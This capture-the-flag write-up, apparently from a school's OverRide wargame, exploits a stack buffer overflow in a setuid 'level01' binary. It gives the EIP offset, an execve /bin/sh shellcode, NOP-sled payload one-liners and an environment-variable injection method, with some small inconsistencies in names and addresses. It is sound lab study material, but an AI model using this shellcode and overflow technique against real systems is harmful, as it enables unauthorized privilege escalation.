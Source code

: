 # 1st Step
  
List the files will show us `level01` executable
```
level01@OverRide:~$ ls -l
total 8
-rwsr-s---+ 1 level02 users 7360 Sep 10  2016 level01
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: bla
verifying username....

nope, incorrect username...

level01@OverRide:~$
```
The program waits for a username/password and exit if it's not good.  
After analyze it with gdb we can find three interesting functions : `main()`, `verify_user_name` and `verify_user_pass`.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-OverRide/blob/main/level01/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-OverRide/blob/main/level01/source.c) for more details.  
A first read of ASM code allows us to see that function `verify_user_name` compares the user name to "dat_wil" and function `verify_user_pass` compares password to "admin".  
By looking closely to the code we can see that finding the password won't help us! Since there is no calls to `/bin/sh`, we can assume we'll have to use a shellcode this time.  
We'll have to write over `eip`, so first get the offset :
```
(gdb) run
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
Thanks to the pattern generator we found an offset of 80.  
As the program use `fgets()` function we should not be able to make a buffer overflow but `fgets()` take a max string of 100 chars wich is more than the offset of `eip`.  
```
On constate que le deuxieme fgets lit 100 bytes alors que le buffer n'en fait que 64, on peut donc exploiter l'overflow pour reecrire la valeur d'eip et injecter un shellcode.
Il faut cependant faire attention a donner un username de 256 caracteres au premier fgets.
Si le username est plus court, alors notre shellcode (situe en principe dans le password) va se faire absorber par le username.
Si le username est plus long, il va deborder sur le password et donc decaler notre shellcode.

Pour ajuster l'adresse de notre payload, on utilise ltrace qui va nous donner l'adresse du buffer dans lequel est stocke le password :
fgets(" \220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\2201\300Ph/"..., 100, 0xf7fcfac0) = 0xffffd6bc

On utilise le payload suivant :
echo $(python -c 'print "dat_will" + "A"*247 + "\n" + "\x90" * 26 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*30 + "\xbd\xd6\xff\xff"') > /tmp/test
(cat /tmp/test; cat -) | ./level01
```

## Create our exploit
*shellcode found [here](http://shell-storm.org/shellcode/files/shellcode-827.php)*  
In order to store our shellcode, we can use environment variables :
```
level01@OverRide:~$ export SHELLCODE=`python -c 'print "\x90" * 50 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`
level01@OverRide:~$ env | grep SHELLCODE
SHELLCODE=��������������������������������������������������1�Ph//shh/bin��PS��
                                                                                ̀
level01@OverRide:~$
```
Find its address with gdb and add some bytes to the address founded in order to jump into the nop sled :
```
https://security.stackexchange.com/questions/13194/finding-environment-variables-with-gdb-to-exploit-a-buffer-overflow
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
[...]
  0x0804856d <+157>:	lea    eax,[esp+0x1c]    // buffer start
[...]
(gdb)  b *main+157
Breakpoint 1 at 0x804856d
(gdb) run
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:

Breakpoint 1, 0x0804856d in main ()
(gdb) x $ebp-0x1008
0xbfffe680:     0x00000000
(gdb)
```
Our input will be as follow :
bytes 0-7: "dat_wil", to pass the `verify_user_name` function.
byte  8: '\n', so that the first `fgets` stops taking user input
bytes 9-89: padding (80 to overwrite EIP with the next 4 bytes) 
bytes 90-94: 0xffffd668 + 20 => 0xffffd67c (sometimes, gdb will give us a wrong address so that's why we added nop sled in the environment variable SHELLCODE)

(python -c 'print "dat_wil" + "\n" + "a" * 80 + "address shellcode reversed"'; cat) | ./level01
